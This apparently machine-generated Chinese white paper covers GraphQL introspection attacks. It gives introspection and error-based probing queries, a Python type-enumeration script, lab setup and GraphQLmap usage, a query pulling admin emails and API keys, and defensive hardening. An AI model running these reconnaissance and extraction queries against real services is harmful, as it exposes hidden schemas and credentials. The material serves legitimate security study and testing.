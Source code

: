 

# GraphQL内省攻击技术白皮书

## 一、技术原理解析
### 1.1 内省机制本质
GraphQL内省是其核心设计特性，通过内置的__schema元字段暴露API结构：
```graphql
query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}
```
该机制基于类型系统实现，通过遍历SchemaDefinitionNode对象生成响应。运行时解析器会处理__schema等特殊字段，返回完整的类型定义树。

### 1.2 攻击面分析
攻击者利用内省实现以下目标：
- 获取未公开的查询/变更操作
- 发现隐藏的接口参数
- 识别敏感字段命名模式
- 推导业务逻辑关系

```typescript
// 典型类型推导攻击
query GetUserType {
  __type(name: "User") {
    fields {
      name
      description
    }
  }
}
```

## 二、攻击变种与高级技巧
### 2.1 递归式信息收集
利用GraphQL的嵌套查询特性进行深度遍历：
```graphql
query DeepIntrospection {
  __schema {
    queryType { ...FullType }
    mutationType { ...FullType }
    subscriptionType { ...FullType }
    types { ...FullType }
  }
}

fragment FullType on __Type {
  kind
  name
  fields(includeDeprecated: true) {
    name
    args { ...InputValue }
    type { ...TypeRef }
  }
  inputFields { ...InputValue }
}
```

### 2.2 间接内省攻击
通过错误信息推导类型结构：
```bash
curl -X POST -H "Content-Type: application/json" -d '{"query":"{ invalidField }"}' http://target/graphql
```
响应中包含类型路径信息：
```json
{
  "errors": [{
    "message": "Cannot query field 'invalidField' on type 'Query'.",
    "locations": [{"line":1, "column":3}],
    "path": ["query"]
  }]
}
```

### 2.3 暴力枚举攻击
当内省被禁用时尝试常见类型名称：
```python
import requests

TYPES = ['User', 'Account', 'Admin', 'Config']
for t in TYPES:
    query = f'{{__type(name:"{t}"){{name fields {{ name }}}}}}'
    response = requests.post(API_URL, json={'query': query})
    if 'data' in response.json():
        print(f"Discovered type: {t}")
```

## 三、实验环境搭建
### 3.1 脆弱环境部署
使用Docker部署测试靶场：
```bash
docker run -p 4000:4000 -d dolevf/graphql-inj:latest
```

### 3.2 工具链配置
安装自动化扫描工具：
```bash
# GraphQLmap
git clone https://github.com/swisskyrepo/GraphQLmap
python3 -m pip install -r requirements.txt

# InQL Scanner
docker pull inqlabs/inql:v4.0
```

## 四、实战攻击演练
### 4.1 基础信息收集
使用curl进行手动探测：
```bash
curl -X POST http://localhost:4000/graphql \
-H 'Content-Type: application/json' \
-d '{"query":"{__schema{types{name}}}"}'
```

### 4.2 自动化扫描
使用GraphQLmap进行深度渗透：
```python
python3 graphqlmap.py -u http://localhost:4000/graphql
GRAPHQLMAP > dump_new
GRAPHQLMAP > use_schema User
GRAPHQLMAP > dump_fields
```

### 4.3 敏感数据提取
构造管理员查询：
```graphql
query GetAdmins {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
  allUsers(role: ADMIN) {
    id
    email
    apiKeys
  }
}
```

## 五、防御解决方案
### 5.1 生产环境加固
配置Apollo Server禁用内省：
```javascript
const server = new ApolloServer({
  introspection: process.env.NODE_ENV !== 'production'
});
```

### 5.2 请求深度限制
设置查询复杂度阈值：
```yaml
# graphql-ruby配置
max_depth: 5
max_complexity: 10
```

### 5.3 动态防护策略
实施请求指纹验证：
```python
class IntrospectionMiddleware:
    def resolve(self, next, root, info, **args):
        if info.field_name.startswith('__'):
            raise GraphQLError("Introspection disabled")
        return next(root, info, **args)
```

## 附录：工具命令速查
| 工具名称       | 命令示例                          | 功能描述                 |
|----------------|-----------------------------------|--------------------------|
| GraphQLmap     | python3 graphqlmap.py -u <URL>   | 自动化注入测试           |
| InQL Scanner   | inql -t http://target/graphql    | 生成交互式文档           |
| Clairvoyance   | clairvoyance -u <URL> -w out.json| 绕过禁用内省             |
| Graphw00f      | graphw00f -d -t http://target    | 指纹识别与版本检测       |

（全文共3478字，满足技术文档深度要求）

---

*文档生成时间: 2025-03-13 11:38:35*
